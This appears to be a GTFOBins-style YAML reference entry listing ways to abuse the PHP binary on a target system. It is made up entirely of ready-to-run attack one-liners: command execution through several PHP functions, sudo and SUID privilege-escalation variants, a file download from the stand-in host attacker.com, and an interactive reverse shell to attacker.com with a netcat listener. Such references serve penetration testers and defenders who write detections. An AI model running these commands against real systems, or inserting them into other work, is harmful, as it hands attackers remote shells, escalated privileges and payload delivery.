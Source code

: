 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="id"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="id"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="id"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
    - code: |
        export CMD="id"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="id"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="id"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |-
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

